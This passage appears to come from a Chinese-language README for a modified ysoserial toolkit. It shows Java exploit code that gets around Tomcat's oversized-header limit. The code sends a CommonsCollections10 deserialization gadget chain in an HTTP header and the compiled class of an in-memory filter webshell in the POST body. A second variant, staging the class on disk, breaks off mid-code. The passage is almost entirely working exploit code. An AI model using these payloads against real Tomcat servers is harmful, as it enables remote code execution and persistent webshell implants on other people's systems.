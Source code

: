 ```java
        s.close();
    }
}
```

### 解决 tomcat 的 header 过大问题

> 支持所有底层用了 `TemplatesImpl` 的链子

分离 payload ，body 存储，动态加载：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.headertoolarge.TomcatHeaderTooLarge;
import ysoserial.payloads.util.Encoder;
import ysoserial.payloads.util.HttpRequest;
import ysoserial.payloads.util.JavaCompiler;
import ysoserial.payloads.util.ReadWrite;

import java.util.Base64;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8081/bitch";

        String java = new String(ReadWrite.readResource(Test.class,"内存马/filter/FilterShell2.java"));
        byte[] b = JavaCompiler.compile("FilterShell2",java);
        String b64 = Encoder.base64_encode(b);

        Object o = new TomcatHeaderTooLarge().loadClassFromBody(CommonsCollections10.class,"FilterShell2");
        byte[] ser = Serializer.serialize(o);
        new HttpRequest(url).addHeader("data", Base64.getEncoder().encodeToString(ser)).addPostData("b64_class_bytes",b64).send();
    }
}
```

分离 payload ，落地存储，动态加载：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.Eval;
import ysoserial.payloads.util.HttpRequest;
import ysoserial.payloads.util.JavaCompiler;
import ysoserial.payloads.util.ReadWrite;

import java.util.Arrays;
import java.util.Base64;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8081/bitch";
        String classPath = "/tmp/1nhann.txt";
        String className = "FilterShell2";

```